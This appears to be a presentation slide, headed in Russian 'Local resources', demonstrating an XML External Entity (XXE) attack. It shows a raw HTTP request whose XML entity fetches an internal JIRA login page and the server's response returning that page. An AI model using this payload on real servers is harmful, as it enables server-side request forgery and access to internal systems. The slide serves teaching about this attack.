

# Локальные ресурсы
POST /xxe HTTP/1.1

<?xml version="1.0"?>
<!DOCTYPE greeting [
<!ENTITY xxe SYSTEM "http://jiralocal/login.jsp" > ]>
<greeting>&xxe;</greeting>

HTTP/1.1 200 OK
<greeting><!DOCTYPE html>
<html>
<head>
<title>Log in - JIRA</title>
…</greeting>